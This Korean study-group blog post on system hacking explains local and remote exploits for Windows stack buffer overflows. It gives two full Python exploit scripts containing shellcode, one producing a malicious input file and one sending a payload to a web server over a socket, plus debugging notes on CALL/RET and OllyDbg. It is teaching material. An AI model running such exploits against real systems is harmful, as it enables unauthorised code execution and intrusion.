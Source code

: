 ```yaml
---
layout: post
title: System Hacking by SUA Day 3
---
```


# SUA 시스템 해킹 스터디 170811
<br>

이번 시간에는 Exploit 분류에 대해 알아보겠다.

<br>
## Exploit 분류
<br>

Exploit은 취약점을 공격하는 코드다. 크게 원격에서 공격 가능한 Remote Exploit과 로컬 상에서 공격이 가능한 Local Exploit으로 분류할 수 있다.

<br>
### 1. Local Exploit
<br>

Local Exploit은 PC 혹은 서버 내부에서 실행하는 Exploit이다. 일반적으로 권한 상승 혹은 코드 실행을 위해서 사용한다. 인자값을 직접 입력해 주어야 하는 경우나 특정 파일을 통해 입력값을 전달하게 되므로 로컬 상의 권한을 이미 가지고 있는 경우이거나, 파일 실행 등의 조건이 필요하다.

예를 들어, 파일을 입력 받아 출력해 주는 간단한 프로그램이 있다고 하자. 이 프로그램의 경우, 문자열의 길이를 검사하지 않고 복사해주기 때문에 스택 버퍼오버플로우가 발생한다. 그렇다면, 이 취약점을 공격하는 코드는 아래와 같다.

```python
import struct

print "[+] Creat text file..."

nop = "\x90" * 100

shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7"

print "Shellcode Length :", len(shellcode)
dummy = "A"*(504-len(nop+shellcode))
buf = struct.pack('<L',0x12fd50)
contents = nop + shellcode + dummy + buf

f = open("test.txt","w")
f.write(contents)
f.close()
```

위 공격 코드를 실행하면 프로그램의 입력값인 텍스트 파일을 만들어주며, 이 프로그램에는 공격 성공 후 실행할 쉘코드가 입력되어 있다(*쉘코드란, 공격자가 실행하길 원하는 코드다. 일반적으로 다양한 악성 행위를 수행하도록 만들어짐*). 공격 코드를 실행하고 생성된 악성 파일을 인자값으로 프로그램을 실행하면 공격자가 원하는 코드가 실행되는 것을 확인할 수 있다. 윈도우 OS의 경우, 주로 직접 인자값에 입력하는 방식의 공격보다는 악성 파일을 이용한 공격이 주를 이룬다. **사용자에게 입력값을 받는 모든 프로그램은 취약점이 존재할 수 있다!**

<br>
### 2. Remote Exploit
<br>

Remote Exploit은 Local Exploit과 반대로 원격에서 이루어지는 공격이다. 원격에서 패킷을 보내 공격하므로 특정 포트를 열고 서비스를 제공하는 서버 프로그램이 타겟이 된다. 단순히 포트가 열려있으면 원격에서 공격을 당할 수 있기 때문에 Remote Exploit 공격은 대부분 치명적이다.

예를 들어, 간단한 웹 서버 프로그램이 있다고 하자. 이 프로그램에는 아래 코드와 같이 요청 패킷을 파싱하는 과정에서 경계값 검사를 하지 않는 **strcpy** 함수를 사용하여 버퍼오버플로우 취약점이 발생한다.

```c
int parse(SOCKET sock, char *buf) {
  char url[1000] = {0,};
  char send_buf[2000] = {0,};
  char * token = strtok(buf, " ");
  char * method = token;
  strcpy(url, token+(strlen(method)+1));
  printf("URL : %s\n", url);
}
```

아래 Exploit 코드는 원격에서 패킷을 보내는 Remote Exploit 코드다.

```python
import struct
from socket import *

nop = "\x90" * 200
shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7";

print "Shellcode Length :", len(shellcode)
dummy = "A"*(499-len(nop+shellcode))
#buf = struct.pack('<L',0x42424242)
buf = struct.pack('<L',0x00416124)
payload = nop + shellcode + dummy + buf

print " [+] Sending Packet..."
s = socket(AF_INET,SOCK_STREAM,0)
s.connect(('127.0.0.1',80))
s.send("GET /"+payload)
print s.recv(150)
s.close()
```

위 코드를 실행하면 원격에서 해당 웹 서버 프로그램을 공격하여 원하는 코드를 실행시킬 수 있음을 확인할 수 있다.

Remote Exploit은 원격에서 직접 공격이 가능하여 주로 서버에 접근 권한을 얻기 위한 1차 공격으로 많이 사용된다. Remote Exploit을 통해 서버의 일반 사용자 권한을 획득한 뒤, Local Exploit을 통해 추가 권한 상승을 시도하는 것이 일반적인 침투 절차이다.

<br>
## [질문 내용 정리]
<br>

- **CALL(Call a Procedure), RET 와 함수 에필로그 차이점?**

어셈블리어 중 CALL 명령어는 함수 호출 시 사용한다. JMP 명령어와 비슷하게 프로그램 실행 흐름을 변경하지만 다른 점은 되돌아오는 리턴 주소(*CALL 다음 명령*)를 스택에 저장한다. 함수 호출후 원래 위치로 실행 흐름을 되돌리고 나서 다시 프로그램이 실행될 수 있다. RET 명령어는 CALL 명령어로 호출한 함수의 주소를 EIP에 저장하고, CALL 명령어로 감소되었던(*ex: PUSH 명령어로 줄어든 ESP 4바이트*) 4바이트를 다시 4바이트 증가시킨다. 함수 에필로그는 CALL 명령어로 호출한 함수를 실행하고 나서, LEAVE(*POP EBP 해서 Base Pointer를 복구하는 과정*) 와 RET 명령어(*PUSH 명령어로 줄어든 4바이트를 다시 4바이트 확장시키는 과정*) 수행을 마치고 처음 호출한 지점으로 돌아가기 위해 스택을 복원하는 과정이다. 참고로, 방식은 함수 호출 규약에 따라 조금씩 다르다.

- **Back To User Mode?**

Back To User Mode는 OllyDbg로 특정 프로그램을 디버깅할 때, 한 이벤트가 발생하기 전에 이 모드를 설정한 뒤, Call 명령어가 수행되고 나서 바로 다음 위치를 잡을 수 있는 기능을 말한다.

> 1. 분석할 프로그램을 OllyDbg로 실행한다.
> 2. F9를 눌러 프로그램 실행시켜 특정 이벤트를 발생시킨다.
> 3. F12를 눌러 프로그램을 일시정지 상태로 둔다.
> 4. Alt+F9를 누르면 Back To User Mode가 설정된다.
> 5. 프로그램을 확인해보면 잠시 멈쳤다가 정상적으로 뜬다. 이 때 버튼 클릭이나 다른 이벤트를 수행한다.
> 6. OllyDbg가 자동으로 해당 이벤트 수행 부분에 커서가 이동된다.

- **인라인 코드 패치(Inline Code Patch)**

[실습 문제](http://blog.eairship.kr/303) 중간에 EBX가 4010F5, EDX에 0으로 값을 덮어씌우고 4010F5~401248에서 순차적으로 4바이트 단위로 값을 읽어온 뒤 ADD 연산을 왜 하는 지..? 그리고 그 다음에 OEP 코드가 나오고, API 함수 호출하는 부분에서 매개변수로 받을 때, MSDN 에서 매개변수가 몇 개인지, 각각 어떤 변수인지 확인했고.. 함수 호출 시 cdecl 규약(*C/C++ 언어의 기본 함수 호출 규약*)에 따라 역순으로 매개변수를 PUSH 하고 함수 호출한 뒤 이어지는 다음 라인에 스택을 정리한다. 40122C 주소의 4010F5 값이 DlgProc 즉, IpDialogFunc의 값이 된다.(*IpDialogFunc 는 다이얼로그 박스 프로시저를 가리키는 포인터 -> 주소*) 아직 더 공부해야 함..

- **main(), tmain(), wmain() 차이?**

main() 이라는 함수는 모든 C/C++ 프로그램의 실행이 시작되는 지점. 유니코드 프로그래밍 모델을 따르는 코드를 작성할 경우 main()의 와이드(Wide) 문자 버전인 wmain()을 사용할 수 있다. tmain()은 Visual Studio에서 Win32 콘솔 응용 프로그램 프로젝트를 생성하면 생기는 함수며 TCHAR.h에 정의되어 있다.
> #define tmain wmain

즉, tmain()은 wmain()과 같은 것이다. 그리고 tmain()은 사용했을 때 유니코드가 정의되어 있지 않으면 main()으로 인식하고, 유니코드가 정의된 경우에는 wmain()으로 인식한다.
